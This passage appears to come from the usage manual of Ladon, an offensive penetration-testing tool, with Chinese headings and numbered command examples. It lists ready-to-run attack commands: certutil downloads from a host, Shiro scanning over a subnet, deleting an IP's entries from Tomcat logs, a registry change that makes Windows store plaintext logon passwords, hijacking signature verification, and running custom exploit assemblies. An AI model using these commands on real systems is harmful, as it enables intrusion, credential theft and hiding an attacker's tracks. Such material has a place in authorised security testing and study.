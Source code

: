 ##### 提交 返回明文
```Bash
certutil.exe -urlcache -split -f http://192.168.1.8:800/getstr/test123456
```
##### Base64加密结果
```Bash
certutil.exe -urlcache -split -f http://192.168.1.110:800/getbase64/k8gege520
```
##### Base64结果解密
```Bash
certutil.exe -urlcache -split -fhttp://192.168.1.110:800/debase64/azhnZWdlNTIw
```

##### 148 Shiro插件探测
```Bash
Ladon 192.168.1.8/24 IsShiro
```

##### 149 LogDelTomcat 删除Tomcat指定IP日志
```Bash
Ladon LogDelTomcat access.log 192.168.1.8
```

##### 150 C#自定义程序集插件扫描
```Bash
Ladon 192.168.1.8/24 Poc.exe
Ladon 192.168.1.8/24 *.dll(c#)
```

##### 151 ReadFile 读取大文件前面指定长度内容
```Bash
Ladon ReadFile c:\k8.exe 默认1k
Ladon ReadFile c:\k8.exe 1K
Ladon ReadFile c:\k8.exe 1024K
Ladon ReadFile c:\k8.exe 1M
```

##### 152 修改注册表读取2012及后系统明文密码
```Bash
Ladon SetMzLogonPwd 1
```

##### 153 修改注册表劫持签名签证
```Bash
Ladon SetSignAuth 1 
```

##### 154 IP24 批量IP转成ip24格式(192.168.1.1/24)
```Bash
Ladon ip.txt IP24
```

##### 155 IPC  批量IP转成ip C格式(192.168.1.)
```Bash
Ladon ip.txt IPC
```
